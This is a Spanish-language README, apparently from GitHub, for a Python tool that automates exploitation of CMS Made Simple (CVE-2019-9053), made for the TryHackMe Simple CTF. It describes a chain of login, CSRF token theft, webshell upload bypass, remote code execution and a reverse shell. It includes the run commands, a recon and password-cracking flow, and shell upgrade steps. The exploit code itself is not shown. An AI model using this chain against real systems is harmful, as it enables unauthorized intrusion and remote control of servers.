

# CMS Made Simple — Auto Shell Uploader

> Herramienta de explotación automatizada para CMS Made Simple | CVE-2019-9053
> Desarrollada durante TryHackMe :: Simple CTF

---

## ⚠️ Aviso Legal

Esta herramienta fue desarrollada estrictamente con fines educativos en un
entorno CTF controlado (TryHackMe). NO la uses contra sistemas que no sean
tuyos o para los que no tengas permiso explícito por escrito.

---

## 📌 Descripción

Exploit automatizado en Python que encadena:

1. Login automático al panel de administración
2. Extracción del token CSRF
3. Fuzzing de extensiones permitidas en el File Manager
4. Bypass de subida de webshell
5. Confirmación de Remote Code Execution
6. Lanzador automático de reverse shell

---

## 🔧 Requisitos

\`\`\`bash
pip install requests
\`\`\`

---

## 🚀 Uso

\`\`\`bash
python3 auto-shell.py -t <IP_VICTIMA> -u <USUARIO> -p <PASSWORD> --lhost <TU_IP>
\`\`\`

### Ejemplo

\`\`\`bash
python3 auto-shell.py -t 10.10.10.10 -u mitch -p secret --lhost 10.9.0.1
\`\`\`

### Argumentos

| Argumento | Descripción                  | Default  |
|-----------|------------------------------|----------|
| `-t`      | IP del objetivo              | required |
| `-u`      | Usuario del CMS              | admin    |
| `-p`      | Contraseña del CMS           | required |
| `--lhost` | Tu IP (tun0)                 | required |
| `--lport` | Puerto del listener          | 4444     |
| `--path`  | Ruta del CMS                 | /simple  |

---

## 🔁 Flujo del ataque

\`\`\`
nmap -sV objetivo
    └─► puerto 80 → Apache
gobuster dir -u objetivo -w wordlist
    └─► /simple → CMS Made Simple 2.2.8
python3 46635.py -u objetivo --crack -w rockyou.txt
    └─► [+] usuario: mitch | contraseña: secret
python3 auto-shell.py -t objetivo -u mitch -p secret --lhost tun0
    └─► login → token → fuzz → upload → RCE → reverse shell
\`\`\`

---

## 🐚 Post-explotación (TTY upgrade)

Una vez que conecte la shell ejecuta:

\`\`\`bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
\`\`\`

---

## 📎 Referencias

- [TryHackMe - Simple CTF](https://tryhackme.com/room/easyctf)
- [CVE-2019-9053](https://www.cve.org/CVERecord?id=CVE-2019-9053)
- [EDB-46635](https://www.exploit-db.com/exploits/46635)

---

## 👤 Autor: cl4rksec
 
- GitHub: [@espinalclark](https://github.com/espinalclark)

---

*Hecho para aprender. Úsalo con responsabilidad.*
